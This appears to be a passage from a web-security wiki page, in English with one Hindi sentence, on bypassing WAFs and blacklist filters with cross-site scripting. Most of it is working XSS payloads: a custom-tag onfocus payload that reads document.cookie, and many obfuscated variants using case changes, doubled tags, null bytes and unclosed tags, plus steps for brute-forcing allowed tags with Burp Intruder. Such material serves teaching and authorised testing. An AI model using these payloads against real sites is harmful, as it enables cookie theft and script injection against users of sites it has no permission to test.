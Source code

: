 ### Tags/Events brute-force

Go to [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and click on _**Copy tags to clipboard**_. Then, send all of them using Burp intruder and check if any tags wasn't discovered as malicious by the WAF. Once you have discovered which tags you can use, you can **brute force all the events** using the valid tags (in the same web page click on _**Copy events to clipboard**_ and follow the same procedure as before).

### Custom tags

If you didn't find any valid HTML tag, you could try to **create a custom tag** and and execute JS code with the `onfocus` attribute. In the XSS request, you need to end the URL with `#` to make the page **focus on that object** and **execute** the code:
```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```
### Blacklist Bypasses

यदि किसी प्रकार की ब्लैकलिस्ट का उपयोग किया जा रहा है, तो आप कुछ बेवकूफी भरे ट्रिक्स के साथ इसे बायपास करने की कोशिश कर सकते हैं:
```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

```